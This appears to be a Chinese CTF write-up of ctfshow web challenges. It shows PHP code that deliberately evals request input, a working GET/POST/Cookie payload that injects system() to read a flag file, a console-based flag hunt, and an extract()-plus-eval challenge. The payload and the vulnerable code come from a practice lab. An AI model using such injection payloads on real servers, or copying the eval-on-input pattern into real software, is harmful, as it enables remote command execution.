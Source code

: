## Web
### Web签到

```php
<?php  
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-11-10 17:20:38
# @Last Modified by:   h1xa
# @Last Modified time: 2022-11-11 09:38:59
# @email: h1xa@ctfer.com
# @link: https://ctfer.com  
*/

error_reporting(0);
highlight_file(__FILE__);
  
eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
```

payload:
- GET: `?g=r&r[6][0][7][5][8][0][9][4][4]=system("cat /f1agaaa");`
- POST: `p=g`
- Cookie: `CTFshow-QQ群:=p`

![](attachments/Pasted%20image%2020230405093908.png)


### web2 c0me_t0_s1gn

![](attachments/Pasted%20image%2020230405094027.png)

查看源代码

![](attachments/Pasted%20image%2020230405094540.png)

半截flag  `ctfshow{We1c0me_`

看起来js函数比较复杂，但是会发现有这样一个函数，直觉上来讲，引用了几乎所有的函数和加密相关的key，结合前面的控制台的提示，在控制台尝试运行

![](attachments/Pasted%20image%2020230405094840.png)

事实上进控制台就有提示了

![](attachments/Pasted%20image%2020230405095109.png)

flag： `ctfshow{We1c0me_t0_jo1n_u3_!}`

### 我的眼里只有$

```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2022-11-10 17:20:38  
# @Last Modified by:   h1xa  
# @Last Modified time: 2022-11-11 08:21:54  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
  
error_reporting(0);  
extract($_POST);  
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);  
highlight_file(__FILE__);
```